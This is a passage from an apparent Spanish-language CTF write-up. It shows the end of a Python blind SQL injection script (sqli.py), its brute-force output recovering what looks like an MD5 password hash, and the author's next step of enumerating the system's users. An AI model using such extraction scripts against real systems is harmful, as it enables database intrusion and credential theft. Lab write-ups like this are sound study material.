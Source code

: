 ```python
                print(f"Found valid sequence: {found}")
                break
        else:
            # Si no encontramos ningún carácter válido, hemos terminado
            print(f"Final sequence found: {found}")
            break

if __name__ == "__main__":
    sqli()
```

```shell
python3 sqli.py
....
Trying payload: C585D01F2EB3E6E1073E92023088A3DD3
Trying payload: C585D01F2EB3E6E1073E92023088A3DD4
Trying payload: C585D01F2EB3E6E1073E92023088A3DD5
Trying payload: C585D01F2EB3E6E1073E92023088A3DD6
Trying payload: C585D01F2EB3E6E1073E92023088A3DD7
Trying payload: C585D01F2EB3E6E1073E92023088A3DD8
Trying payload: C585D01F2EB3E6E1073E92023088A3DD9
Final sequence found: C585D01F2EB3E6E1073E92023088A3DD
```

Encontramos este hash que parece MD5
`c585d01f2eb3e6e1073e92023088a3dd`

No pude crackear este hash, así que ahora me interesa saber cuantos usuarios hay en el sistema.
![Write-up Image](images/Screenshot_6.png)
